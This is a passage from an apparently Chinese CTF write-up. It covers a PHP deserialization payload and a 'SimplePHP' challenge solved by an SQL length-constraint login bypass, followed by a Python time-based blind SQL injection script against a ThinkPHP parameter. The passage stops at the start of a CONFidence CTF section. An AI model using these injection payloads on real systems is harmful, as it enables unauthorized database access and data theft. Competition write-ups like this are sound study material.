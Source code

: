 ```php
    }  
}



$obj = new baby();
$obj->a();


echo serialize($obj);
```

构造序列化payload，需注意protected成员序列化后的`%00*%00`

***

#### SimplePHP

查看robots.txt，访问/admin有注册登录页面

SQL长度约束，`username=admin                                                                                                                          1`登录

进入后利用TP注入漏洞：

```python
import requests

flag = ""
_cookies = {
	'PHPSESSID': # cookie
}

for i in range(1,50):
	for j in range(33, 128):
		url = f'http://101.71.29.5:10004/Admin/User/Index?search[table]=flag where 1 and if((mid((select flag from flag limit 0,1),{i},1)={chr(j)},sleep(3),0)--'
		try:
			r = requests.get(url, timeout=3, cookies=_cookies)
		except:
			flag += j
			break
    print(flag)
```

***

### Teaser CONFidence CTF

赛后复现，连接[https://confidence2019.p4.team/](https://confidence2019.p4.team/)

My Admin Panel我看做出来的人挺多就没看，复现了后两道Web题目

#### Web 50
